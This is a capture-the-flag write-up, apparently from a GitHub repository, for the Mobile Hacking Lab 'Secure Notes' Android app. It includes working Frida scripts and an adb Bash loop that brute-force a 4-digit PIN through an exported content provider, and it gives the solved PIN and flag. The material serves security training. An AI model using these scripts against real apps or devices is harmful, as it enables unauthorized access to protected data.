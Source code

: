 # Mobile Hacking Lab

## Lab - Secure Notes

![Lab Logo](images/mhl_securenotes_logo.png)

---

## Writeup

1. I started by opening the application and observing its behavior. It can be seen that it has a textbox that we can input the 4-digit pin. When I inputted some numbers, it showed `[ERROR: Incorrect PIN]`

<img src="images/mhl_securenotes_1.jpeg" alt="Secure Note 1" width="200">

2. Started to reverse engineer the application using JADX and observed `AndroidManifest.xml` file for the component that is exported (`exported="true"`). Saw the Content Provider named `SecretDataProvider` that is exported.

![Secure Notes 2](images/mhl_securenotes_2.jpeg)

3. Looked at the `MainActivity` class.

![Secure Notes 3](images/mhl_securenotes_3.jpeg)

4. When the pin is entered, it called `querySecretProvider(enteredPin)` method using the entered pin as the input.

![Secure Notes 4](images/mhl_securenotes_4.jpeg)

5. The method queries the Content Provider and displays some secret text if the provided pin is correct.

![Secure Notes 5](images/mhl_securenotes_5.jpeg)

6. Looked inside the `SecretDataProvider` class and saw that it opened `config.properties` of assets.
- In `assets/config.properties` has key-value pairs having base64-encoded values.
- it decodes each value and set to its own properties (`encryptedSecret`, `salt`, `iv`, and `iterationCount`), respectively.

![Secure Notes 6](images/mhl_securenotes_6.jpeg)
![Secure Notes 7](images/mhl_securenotes_7.jpeg)

7. Inside the `query()` method, it calls `decryptSecret(format)` with the formatted pin as the input.

![Secure Notes 8](images/mhl_securenotes_8.jpeg)

8. In the `decryptSecret()` method, it derives the pin into the decryption key and tries decrypting the encrypted secret (`this.encryptedSecret`). If successful, it returns the decrypted string; otherwise, it returns `null`.

![Secure Notes 9](images/mhl_securenotes_9.jpeg)

9. After observing the decompiled code for a while and not seeing any hardcoded pin, I decided to brute force the pin since it is only 4 digits of integer.

10. I tried to create the [Frida script](script.js) to brute force the pin by repeatedly calling the `decryptSecret(pin)` method where `pin` values from 0000 to 9999.
- If the method can decrypt the `encryptedSecret` and return the result with some value (not null, not evaluated to false), it will log out the valid pin to the output. 
- Moreover, I also have it filtering out the output with replacement character (`\uFFFD`, to replace character with unknown value or unrepresentable in Unicode) for the case that it can decrypt but return unreadable output since the pin is not correct.
- I tried to call the method in 2 ways (for practicing purpose): 
1) Enumerating the existing instance of `SecretDataProvider` and invoking its `decryptSecret(pin)` method.

```javascript
function enumerateExistingInstance() {
    setTimeout(function () {     // Delay for the instance to be created
        Java.choose("com.mobilehackinglab.securenotes.SecretDataProvider", {
            onMatch(instance) {
                console.log("[+] Found: " + instance);
                console.log("[+] Start to brute-force the pin ...");
                for (let  i=0; i<=9999; i++) {
                    let paddedPin = String(i).padStart(4, '0');
                    console.log("Pin: " + paddedPin);
                    let result = instance.decryptSecret(paddedPin);
                    if (result && !(result.includes("\uFFFD"))) {    // Filter out unreadable strings
                        console.log("[+] " + paddedPin + " : " + result);
                        break;
                    }
                }
            },
            onComplete() {
                console.log("[-] Instance enumeration completed");
            }
        });
        
    }, 1000);
}
```

![Script output 1](images/mhl_securenotes_scriptOutput_1.jpeg)
![Script output 2](images/mhl_securenotes_scriptOutput_2.jpeg)

2) Hooking the `decryptSecret` method of `SecretDataProvider` class so that when the application calls that method (when we clicked "Submit"), it will brute force for the correct pin first and return the decrypted output to the application.

```javascript
function hookMethod() {
    const SecretDataProvider = Java.use("com.mobilehackinglab.securenotes.SecretDataProvider");
    SecretDataProvider.decryptSecret.implementation = function (originalPin) {
        console.log("[+] Hook SecretDataProvider.decryptSecret()");

        for (let  i=0; i<=9999; i++) {
            let paddedPin = String(i).padStart(4, '0');
            console.log("Pin: " + paddedPin);
            let result = this.decryptSecret(paddedPin);
            if (result && !(result.includes("\uFFFD"))) {   // Filter out unreadable strings
                console.log("[+] " + paddedPin + " : " + result);
                return this.decryptSecret(paddedPin);
            }
        }
        
        return this.decryptSecret(originalPin);
    }
}
```

![Script output 3](images/mhl_securenotes_scriptOutput_3.jpeg)
![Script output 4](images/mhl_securenotes_scriptOutput_4.jpeg)

11. Alternatively, I created a [Bash script](bash_script.sh) to brute-force the correct PIN by repeatedly querying the exposed content provider:
```bash
#!/bin/bash

echo "[+] Starting PIN brute-force ..."

for i in $(seq -w 0000 9999); do
    echo -n "Trying PIN: $i "
    adb shell content query --uri "content://com.mobilehackinglab.securenotes.secretprovider" --where "pin=$i" \
            | grep "Row" \
            | grep -v "$(echo -e '\uFFFD')" && break
    echo ''
done

echo "[+] PIN brute-force completed"
```
- Filter only the output that has "Row" in it indicating that it can decrypt the encrypted secret and retrieve one.
- Also filter out the output that has the character with unknown value, same as in Frida script.
- ***But I don't know why querying using command is very slow.

![Script output 5](images/mhl_securenotes_scriptOutput_5.jpeg)
![Script output 6](images/mhl_securenotes_scriptOutput_6.jpeg)

12. The correct pin is `2580`, and the flag is `CTF{D1d_y0u_gu3ss_1t!1?}`

---

## Scripts

[Frida script](script.js)

[Bash script](bash_script.sh)

---

![Certificate of Completion](images/mhl_securenotes_certificate.jpeg)